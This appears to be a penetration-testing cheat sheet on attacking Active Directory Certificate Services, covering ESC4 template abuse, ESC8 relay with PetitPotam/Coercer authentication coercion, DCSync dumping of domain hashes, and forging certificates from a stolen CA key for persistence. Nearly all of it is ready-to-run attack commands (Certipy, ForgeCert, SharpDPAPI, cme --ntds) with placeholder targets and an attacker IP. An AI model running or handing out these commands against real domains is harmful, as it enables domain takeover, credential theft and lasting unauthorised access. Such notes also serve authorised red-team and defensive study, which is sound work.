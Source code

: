 ### EC4

This misconfiguration is due to a user having the ability to modify a certificate template.

Ideally if you can manipulate a template you back up the current configuration, modify it to be vulnerable to EC1, exploit EC1, and then use the backup to revert it to the slightly less vulnerable state.

```bash
certipy template -u user@domain.local -p 'pass' -template VulnTemplate -save-old

certipy req -u user@domain.local -p 'pass' -target ca.domain.local -template VulnTemplate -ca DOMAIN-CA -upn Administrator@domain.local

certipy auth -pfx administrator.pfx -dc-ip 1.2.3.4

certipy template -u user@domain.local -p 'pass' -template VulnTemplate -configuration VulnTemplate.json
```


### ESC8

This works if Web Enrollment is set to true and you can cause authentication coersion.

A web enrollment service has to be installed and enabled on top of the above.

```bash
certipy relay -ca <CA_IP> -template DomainController

Coercer coerce -l 127.0.0.1 -t dc.of.target.domain -u user -p 'pass' -d domain.local
# or 
python3 /opt/PetitPotam/PetitPotam.py -d domain.local <attacker_IP> <target_DC_IP>
certipy auth -pfx dc.pfx -dc-ip <DC_IP>

# Check Auth
cme smb <dc-ip> -u Administrator -H <ntlm> --shares

# dcsync
cme smb <target_DC>.domain.local -u <DC_machine_acct> -H <NT_hash> --ntds
```

### Domain Persistence


#### DPERSIST1 - Forge certificates with stolen CA certificate

Imagine a scenario, where you have gained local administrative access to the Root CA within a domain and need a way to escalate domain privileges. 

We can extract the CA's root certificate and use that to "forge" a certificate that we can use to authenticate within the domain.

**Windows:**
```powershell
# Extract CA Root Certificate - (THEFT2)
SharpDPAPI.exe certificates /machine

# Save certs to file 
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out ca.pfx

# Forge Rogue Certificate
ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword Password123 --Subject CN=User --SubjectAltName administrator@domain.local --NewCertPath admin.pfx --NewCertPassword Password123 

# - PowerMad To Create Computer (If you don't control computer object)
```